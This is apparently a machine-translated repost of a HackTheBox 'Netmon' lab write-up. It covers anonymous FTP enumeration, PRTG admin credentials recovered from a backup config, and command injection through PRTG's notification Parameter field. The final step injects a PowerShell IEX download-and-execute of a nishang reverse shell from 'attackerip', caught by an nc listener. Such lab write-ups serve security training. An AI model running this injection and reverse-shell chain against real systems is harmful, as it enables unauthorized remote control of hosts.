



# HacktheBox — Netmon

> 原文：<https://infosecwriteups.com/hackthebox-netmon-write-up-9e7a6bdb0e97?source=collection_archive---------0----------------------->

这是一篇关于我如何解决黑客盒子中的 Netmon 的文章。

[Hack the Box](http://hackthebox.eu) 是一个在线平台，你可以在这里练习渗透测试技能。

正如我一直做的那样，我试图解释我是如何从机器上理解这里的概念的，因为我想真正理解事物是如何工作的。所以请，如果我误解了一个概念，请让我知道。非常欢迎您的指正。:D

# 关于盒子

Netmon 是一个有趣又简单的盒子，我认为它是针对那些开始玩 HacktheBox 的初学者的。它教你不要把注意力放在漏洞上，而是想想你可以滥用系统运行的方式。


来源:https://www.hackthebox.eu/home/machines/profile/177

# #TLDR

```
**Initial foothold:** FTP allows anonymous login, and surprisingly has lots of access LOL
**User:** Just read what’s in the Public directory..
**Root:** PRTG Network Monitor command as the argument supplied in the “Parameter” field of the “Notifications” configuration is passed directly into the PowerShell script without any  sanitation, resulting in to the ability to inject any other PowerShell code.
```

# #初始立足点/获取用户

我首先通过调用命令运行初始 Nmap 扫描，将其保存到 Nmap 目录:

```
nmap -sV -sC -oA nmap/initial 10.10.10.152
```

我还运行了一个 curl 命令来检查端口 80(HTTP)中是否有东西在运行

```
➜  Netmon curl 10.10.10.152                                                                                                       
<html><head><title>PRTG Starting...</title><style>body,pre,p,h2, div,span {font-family:  "Lucida Sans-Serif", "Segoe UI", Tahoma, 
Arial, Helvetica, sans-serif;}h2 {font-weight:500}body, html {background-color: #f4f6f7;margin:0px;height:100%;}pre {padding:5px;f
ont-size:11px;}img {border: 0px;}span, a {font-size: 10px;color: #333333;text-decoration: none;}body {  background: #fff}#header {
position: absolute;width: 100%;height: 22px;top: 0px;left:0px;padding: 0px;margin: 0px;background-color: #d6d7d8;}#footer {positio
n: absolute;width: 100%;height: 24px;bottom: 0px;left: 0px;background-color: #d6d7d8;}#copytext {position: absolute;bottom: 1px;ri
ght: 22px;}#prtgversiontext {position: absolute;bottom: 1px;left: 4px;}#prtglogobig {background-image: url(data:image/png;base64,i
VBORw0KGgoAAAANSUhEUgAAAPoAAACWCAYAAAD32pUcAAAAB3RJTUUH3QoJDBs6M+wZNgAAAAlwSFlzAAALEgAACxIB0t1+/AAARpRJREFUeNrsnQdYFEcbgLfcHcfRi/Q
OUsWCICpiQ8WGLRqxBSUaY7DEEjTGEnuvaPRP7JWoaNQoUURFVBAEEUVAIVQFKQcH18vuv5v85jd4e1zbu9Pn3ufZB25nduab2f1mvpn5dhZEURTQo0fPpw2kbQH06NFDP
hRtC6BHjyxQiQBCWWW2aGN+N5RVGoC2lHuhzEJnQCKwxYLNgX8/w3zsaAKNnWoAQ+sKyDLgFWjmmQ9aB+YDRo4sEIK1XRytAepNdz26BqbMZkhlyhCk+vYwtO5JX0DMcQd
Usz4FgLFTPmTb4w7kOvQ66Nj3AUg1Emu7nJpEr+h6dAJU2EJDSpIikeIzMWhT8TDsDIOsrADYsBZyHnge6vj5cdAhLBeEDbRdfNLRK7oerYK2VplKnh2ciZRdjQMETR4az
l4CmLg+gAO/3gG5R10HDcw+2V5er+h6tAIqaKZLsjfGIaUXl2DjbTttiwMYOTyBuy5YCXWcmIyN5T85pdAruh6NgkqEAFJ4bJQkb89OQNjiqW152gJa+CbDPdctgux7Fml
bFrWWS6/oejQF2lzSQZy+eD9an/sZoMtLuyDEgXymrINDftjxqUza6RVdD+mgKAIgRacjJFlrjwISvrO25ZFXbNDC5w7cd3cMZNWpWtvCqIpe0fWQCirmA5LMVUuQl2c3Y
D9p2pZHYShGNXDYpmjYc+w9bYuiCnpF10MaqJhHFafMOIDWPIjFfoLalkcFBFDAzNlwj1XHQfDjLIbujpP0fNRwBbWMh8Vf/9rQ+vhL4ONWchwDpODQYUnWhoUo8nF2jHp
F16N2ROIWg0ev5iY281+OzXe1AlrpH7+nNWb4wrwdD7bzVl+M/xiVXa/oetSKBOFDuX+uOMIVvI7Cf4spEJDnbg3wqSo/aiLsYGJHDXbUAX/7tWsEfHQryvACRDfdIH5C6
kbeyotfaSpvdaEfo+tRG/iz9Lg0fnMd63480MZcN+EKgeDSeoDSfm+IAlSTMtC6czpkF5oFmHnlg0Z22O+ub/8K+/vA0wbRxmfmgJDljjaX+CFvs3ugdY/DAV69P6Dml7V
EeS6A4FRnAED+KZKQsWfyWHpMn+varnN50Su6HrXx8s2hSa9qDp8CCCxFaxYP6FLeKC0QM4wNqiG3EacglyHnQKcBz0EqQ+H1a1QixJT/uTtSmjQOqbg5DeDWdgJUtFrFr
+wA/qHumLa3SQaGmCa/ze9NDfcu1lwNK49e0fWohfqWLJ/sV4syUEBiISuecwMb8Hnd/K67RwG65XO40+wtkHd0Eki3VJs5joq4EFKd2h/J27sUbSoaDCgxISh5bQnwDoQ
CAFe6gQDamuaapS/vA9mY8sisW3WgV3Q9KiOSsKnpL6bd4wlre7YbGXvevGpYgDtTUgt3/uZ7qNOskyDVSEKmfJKXiYMkOdu2A7y6LvJegzSaALyE3gDaInvpnzrIf6fJh
bmLyZRfHegn4/SoTGF1wgJMyUPligyCSJP3gJPQ+NROcLdvj5Gt5Diwd/Qt6piboZDX+NUA/m56OyCthgDvUI92lRxHdOvFPEHioz5kl0FV9D26HpVgcYqc7hfNKMT...
```

知道端口 80 上有东西，我查看页面。



我现在知道有一个登录页面。注意，如果我们用 HTTP 运行 curl，我没有得到任何输出(不知道为什么。)

```
curl http://10.10.10.152
```

检查我的 Nmap 的输出:

```
Nmap scan report for 10.10.10.152
Host is up (0.44s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_03-05-19  01:25AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windowsHost script results:
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-03-04 22:43:28
|_  start_date: 2019-03-04 21:55:24Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
```

我没有看到端口 80，但我可以访问登录页面。

看到 FTP 可用(端口 21)，但没有可用的凭证，我尝试以匿名身份登录。

```
➜  Netmon ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
06-29-19  08:58AM                   74 output.txt
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
```

查看 C:\Users\Public\，我发现 user.txt 在那里..😆

```
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.28 secs (0.1145 kB/s)
ftp> exit
221 Goodbye.
➜  Netmon cat user.txt 
**dd58ce67b49e15105.....**
```

# 获取根目录:

大多数隐私的发生是因为错误配置或过时的程序。我首先检查过时的程序。去程序文件和“PRTG 网络监视器”脱颖而出，因为这是不常见的 Windows 默认安装(加上盒子的名字给出了提示)。

```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:18AM                 1024 .rnd
02-25-19  10:15PM       <DIR>          inetpub
06-29-19  08:58AM                   74 output.txt
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
02-03-19  08:08AM       <DIR>          Users
02-25-19  11:49PM       <DIR>          Windows
226 Transfer complete.
ftp> cd "Program Files"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  10:56PM       <DIR>          Common Files
07-16-16  09:18AM       <DIR>          internet explorer
02-25-19  10:56PM       <DIR>          VMware
11-20-16  09:53PM       <DIR>          Windows Defender
07-16-16  09:18AM       <DIR>          WindowsPowerShell
02-03-19  12:18AM       <DIR>          WinPcap
226 Transfer complete.
ftp> cd ..
250 CWD command successful.
ftp> cd "Program Files (x86)"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
07-16-16  09:18AM       <DIR>          Common Files
07-16-16  09:18AM       <DIR>          internet explorer
07-16-16  09:18AM       <DIR>          Microsoft.NET
06-29-19  08:41AM       <DIR>          PRTG Network Monitor
11-20-16  09:53PM       <DIR>          Windows Defender
07-16-16  09:18AM       <DIR>          WindowsPowerShell
226 Transfer complete.
```

浏览文件并搜索凭证是否存储在一个文件中(这是大多数枚举发生的地方)，我在目录下找到了一个 PRTG Configuration.old.bak，这似乎是一个备份文件。如果你只是运行“ls”或寻找文件，你不会发现这是因为“所有用户”目录是隐藏的。

```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
06-29-19  09:36AM       <DIR>          Public
226 Transfer complete.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
06-29-19  09:36AM       <DIR>          Public
226 Transfer complete.
ftp>
```

你必须列出隐藏的目录，通过“ls -la”。

```
ftp> ls -al
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-25-19  11:44PM       <DIR>          Administrator
07-16-16  09:28AM       <DIR>          All Users
02-03-19  08:05AM       <DIR>          Default
07-16-16  09:28AM       <DIR>          Default User
07-16-16  09:16AM                  174 desktop.ini
06-29-19  09:36AM       <DIR>          Public
226 Transfer complete.
ftp>
```

转到“所有用户\派斯勒\PRTG 网络监视器\”，我们找到 PRTG 配置.旧.巴克文件。这可以是存储凭证的备份文件。

```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:40AM       <DIR>          Configuration Auto-Backups
06-29-19  09:29AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
06-29-19  09:29AM       <DIR>          Logs (Web Server)
02-25-19  08:01PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
06-29-19  09:30AM              1647604 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
```

我使用 get 命令下载文件:

```
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak                                                             
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

我搜索字符串“password”并查看字符串(-C 10)“password”前后的行，以查找任何与其相近的条目。我把它管得更少。

```
grep -C 10 password ‘PRTG Configuration.old.bak’| less
```

输出:

```
<flags>
                <encrypted/>
              </flags>
            </comments>
            <dbauth>
              0
            </dbauth>
            <dbcredentials>
              0
            </dbcredentials>
            <dbpassword>
              <!-- User: **prtgadmin** -->
              **PrTg@dmin2018**
            </dbpassword>
            <dbtimeout>
              60
            </dbtimeout>
            <depdelay>
              0
            </depdelay>
            <dependencytype>
              0
            </dependencytype>
            <discoveryschedule>
--
              0
            </discoverytypegroup>
```

然后我们找到凭证。

```
**prtgadmin:PrTg@dmin2018**
```

我尝试使用中小企业的信用登录，但没有成功。然后，我们在登录页面上尝试这样做，但这不起作用。由于密码包含 2018，通过做一点猜测，我将其更改为 2019，它可以工作。🐵

因为我们以管理员身份访问监视器，所以我们最有可能以管理员身份运行东西。我们可以通过在您的本地系统上安装应用程序来验证它，因为这有助于理解程序是如何工作的。但是对于这个盒子，我不想走那么远。

我谷歌了一个 PRTG 漏洞，无意中发现了这个链接。建议你通读一遍，了解它的工作原理:

 [## PRTG < 18.2.39 Command Injection Vulnerability

### This post is as much about the penetration testing process and mindset as it is about the vulnerability I discovered in…

www.codewatch.org](https://www.codewatch.org/blog/?p=453) 

Understanding how this works teaches you to not depend on tools or the fanciest exploit, but consider also files that may run with Administrator privileges, especially when input is not sanitized.

Understanding the write up, we can have command execution. In the write up, he adds an Administrator account. For the sake of this box, what we need to do is write on the .ps1 file mentioned, then let it execute a command that will download and execute our reverse shell so we can have control of the box.

I first try to check if command execution works by making the box ping my IP. I setup my sniffer:

```
➜  Netmon tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
```

The command below tells the box to write on the directory C:\Users\Public\ and name it test.txt. Then it will read the file we created, and then execute the next command after that(since it was able to execute the command before it). My IP when I was re-solving this box is used below.

```
echo huhu > C:\Users\Public\test.txt; type C:\Users\Public\test.txt ; ping -n 5 10.10.13.148
```

I enable Execute Program and put the command above on the Parameter field of the “Email and push notification to admin” notification(you can choose any, as long as you map it to the correct alert), which is executed and written on the .ps1 file when we trigger the notification.


I triggered the Ping alert by clicking “check now”.



I see ICMPpackets in tcpdump:

```
➜  Netmon tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
14:40:50.173021 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 326, length 40
14:40:50.173030 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 326, length 40
14:40:51.311428 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 329, length 40
14:40:51.311441 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 329, length 40
14:40:52.320735 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 330, length 40
14:40:52.320758 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 330, length 40
14:40:53.405802 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 331, length 40
14:41:22.282099 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 353, length 40
14:41:22.282143 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 353, length 40
14:41:23.298609 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 354, length 40
14:41:23.298655 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 354, length 40
14:41:24.316551 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 355, length 40
14:41:24.316565 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 355, length 40
14:41:30.007785 IP 10.10.10.152 > kali: ICMP echo request, id 1, seq 362, length 40
14:41:30.007800 IP kali > 10.10.10.152: ICMP echo reply, id 1, seq 362, length 40
```

Now we know we have code execution. We then prepare to get our shell. We set up our listener:

```
**nc -nlvp 9001**
```

We set up our SimpleHTTPServer(default is port 8000) where the PowerShell script will be downloaded which will connect to our listener. This will serve all the files under the directory where we ran the command above at http://attackerip:8000.

```
**python3 -m http.server** 
```

The file being served is a PowerShell script from [霓裳](https://github.com/samratashok/nishang/tree/master/Shells)。我使用了 Invoke-PowerShellTcp.ps1。我们在最底部附加了我们想要的命令(阅读脚本的内容，您就会理解它的语法)。将此添加到脚本的底部:

```
**Invoke-PowerShellTcp -Reverse -IPAddress attackerip -Port 9001**
```

我只是把命令从 ping 改为让它下载我们的. ps1 文件，然后执行它。我把文件名改成了 rev.ps1

```
echo huhu > C:\Users\Public\test.txt; type C:\Users\Public\test.txt ; IEX(New-Object Net.WebClient).downloadString('http://attackerip:8000/Invoke-PowerShellTcp.ps1')
```



我们得到了我们的壳。

转到 C:\Users\Administrator\Desktop，我们现在可以读取 root.txt。

```
PS C:\Users\Administrator> cd Desktop
PS C:\Users\Administrator\Desktop> dirDirectory: C:\Users\Administrator\DesktopMode                LastWriteTime         Length Name                                                                            
----                -------------         ------ ----                                                                            
-a----         2/2/2019  11:35 PM             33 root.txtPS C:\Users\Administrator\Desktop> pwdPath
----
C:\Users\Administrator\DesktopPS C:\Users\Administrator\Desktop> type root.txt
**3018977fb9..**
PS C:\Users\Administrator\Desktop>
```

这就是我如何从黑盒子里做盒子 Netmon 的。我希望你能从这次演练中学到一些东西。干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)